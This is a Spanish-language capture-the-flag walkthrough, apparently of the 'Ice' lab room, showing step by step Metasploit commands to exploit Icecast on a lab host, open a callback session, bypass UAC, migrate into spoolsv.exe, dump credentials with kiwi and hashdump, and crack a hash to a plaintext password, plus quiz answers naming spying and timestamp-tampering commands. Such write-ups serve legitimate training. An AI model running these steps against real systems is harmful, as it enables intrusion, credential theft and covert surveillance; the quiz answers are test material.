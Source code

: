 # Ice

## nmap

Después de esperar unos minutos a que inicie la máquina, escaneamos los puertos.

```
nmap -A -T4 -p- 10.10.39.57
```

![[Pasted image 20250221122600.png]]

Y estos son los resultados del script:

![[Pasted image 20250221122646.png]]

El puerto 8000 es el de `Icecast` y el hostname es `DARK-PC`.

```
sudo nmap -sS 10.10.39.57
```

![[Pasted image 20250221123829.png]]

Verificamos si hay vulnerabilidades mediante el script de `nmap`. Tardará unos minutos en completarse.

```
nmap -T4 -A -p- --script=vuln 10.10.39.57 -vv
```

Se ha detectado una vulnerabilidad `ms17-010`cuyo CVE es `CVE-2017-0143` además de `CVE-2007-6750`-

![[Pasted image 20250221125732.png]]
![[Pasted image 20250221125321.png]]

Buscamos la vulnerabilidad de `Icecast` también.

https://www.cvedetails.com/cve/CVE-2004-1561/
## Obtener acceso

Abrimos la consola de metasploitable:

```
msfconsole
```

Buscamos el exploit de `Icecast`:

```
search icecast
```

Cargamos el exploit:

```
use 0
```

![[Pasted image 20250221130420.png]]

Configuramos las opciones.


```
set RHOST 10.10.39.57
set LHOST 10.8.3.33
```

![[Pasted image 20250221130610.png]]

Ejecutamos el exploit:

```
run
```

![[Pasted image 20250221130948.png]]

## Escalada de privilegios

Introducimos el siguiente comando para ver el server username:

```
getuid
```

![[Pasted image 20250221131452.png]]

Para ver la información del sistema:

```
sysinfo
```

![[Pasted image 20250221131546.png]]

Ahora que conocemos la arquitectura de los procesos, vamos a hacer un reconocimiento más avanzado de los mismos:

```
run post/multi/recon/local_exploit_suggester
```

![[Pasted image 20250221132008.png]]

Ponemos el proceso en el background:

```
background
```

Usamos el siguiente exploit:

```
use exploit/windows/local/bypassuac_eventvwr
```

![[Pasted image 20250221132232.png]]

Vemos las opciones y asignamos la sesión:

```
options
set session 2 
```

> Hay que asegurarse bien de qué sesión es con el comando `sessions`.

Iniciamos el exploit:

```
run
```

![[Pasted image 20250221132414.png]]

Ahora lo ejecutamos con una interfaz disntinta:

```
set LHOST tun0
```

Ejecutamos el siguiente comando una vez obtenemos acceso:

```
getprivs
```

![[Pasted image 20250221132709.png]]

El permiso de `SeTakeOwnershipPrivilege`es el que permite obtener la propiedad de una archivo.

## Looting

Visualizamos los procesos del sistema con el comando `ps`:

![[Pasted image 20250221133657.png]]

Migramos el proceso con el siguiente comando:

```
migrate -N spoolsv.exe
```

![[Pasted image 20250221133807.png]]

Confirmamos que ahora somos NT Authority.

```
getuid
```

![[Pasted image 20250221133907.png]]

Ahora que tenemos todos los permisos, vamos a usar el comando `kiwi`. Escribimos el comando `help` que muestra todas las funciones de la herramienta.

```
load kiwi
help
```

![[Pasted image 20250221134221.png]]

![[Pasted image 20250221134301.png]]

Para obtener todos los credenciales usaremos el siguiente comando:

```
creds_all
```

![[Pasted image 20250221134352.png]]

También podemos usar `hashdump`y crackear los hashes.

![[Pasted image 20250221134431.png]]

En la siguient página podemos crackearlos.

https://crackstation.net/

Este es el de Dark:

```
7c4fe5eada682714a036e39378362bab
```

![[Pasted image 20250221134641.png]]

La contraseña es `Password01!`.

## Post-Exploitation

- ¿Qué comando nos metire dumpear todas los hashes de las contraseñas del sistema?

**hashdump**


- ¿Qué comando nos permite ver el escritorio remoto del usuario en tiempo real?

**Screenshare**

- Si quisiéramos grabar desde un micrófono conectado al equipo, ¿qué comando nos lo permitiría?

**record_mic**

- Podemos modificar las marcas de tiempo de los archivos del sistema. ¿Qué comando nos permite hacerlo?

**timestomp**


- Mimikatz nos permite crear lo que se denomina un «ticket dorado», que nos permite autenticarnos en cualquier lugar con facilidad. ¿Qué comando nos permite hacer esto?

**golden_ticket_create**























